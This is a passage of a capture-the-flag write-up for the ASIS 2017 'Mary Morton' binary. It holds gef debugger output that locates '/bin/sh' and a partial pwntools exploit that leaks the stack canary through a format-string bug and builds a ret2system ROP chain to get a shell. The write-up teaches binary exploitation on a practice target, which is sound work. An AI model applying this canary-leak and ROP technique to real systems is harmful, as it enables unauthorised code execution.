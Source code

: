 ```
gef➤  b *0x400826
Breakpoint 1 at 0x400826
gef➤  r
Starting program: /Hackery/pod/modules/ret_2_system/asis17_marymorton/mary_morton 
```

then once you reach the breakpoint:

```
Breakpoint 1, 0x0000000000400826 in ?? ()
gef➤  find /bin/sh
Invalid size granularity.
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/Hackery/pod/modules/ret_2_system/asis17_marymorton/mary_morton'(0x400000-0x401000), permission=r-x
  0x400b2b - 0x400b32  →   "/bin/sh" 
[+] In '/Hackery/pod/modules/ret_2_system/asis17_marymorton/mary_morton'(0x600000-0x601000), permission=r--
  0x600b2b - 0x600b32  →   "/bin/sh" 
[+] In '/lib/x86_64-linux-gnu/libc-2.27.so'(0x7ffff79e4000-0x7ffff7bcb000), permission=r-x
  0x7ffff7b97e9a - 0x7ffff7b97ea1  →   "/bin/sh" 
=
```

We can see here that the binary has the string `"/bin/sh"` is hardcoded at `0x400b2b`. This is the part of the binary that I modified. Originally it held the string `"/bin/cat ./flag"` which would print out the contents of the flag, so we would solve the challenge. However I decided to change the string to give us a shell instead of just simply printing the flag. We should be able to use that as the argument for system. 

## Exploit

With all of those things, we can write the python exploit:

```
#First import pwntools
from pwn import *

#Establish the target process
target = process('./mary_morton_patched')
gdb.attach(target, gdbscript='b *0x4009a5')

raw_input()

#Establish the address for the ROP chain
gadget0 = 0x400ab3
cat_adr = 0x400b2b
sys_adr = 0x4006a0

#Recieve and print out the opening text
print target.recvuntil("Exit the battle")

#Execute the format string exploit to leak the stack canary
target.sendline("2")
target.sendline("%23$llx")
target.recvline()
canary = target.recvline()
canary = int(canary, 16)
print "canary: " + hex(canary)
print target.recvuntil("Exit the battle")

#Put the Rop chain together, and send it to the server to exploit it
target.sendline("1")
payload = "0"*136 + p64(canary) + "1"*8 + p64(gadget0) + p64(cat_adr) + p64(sys_adr)
```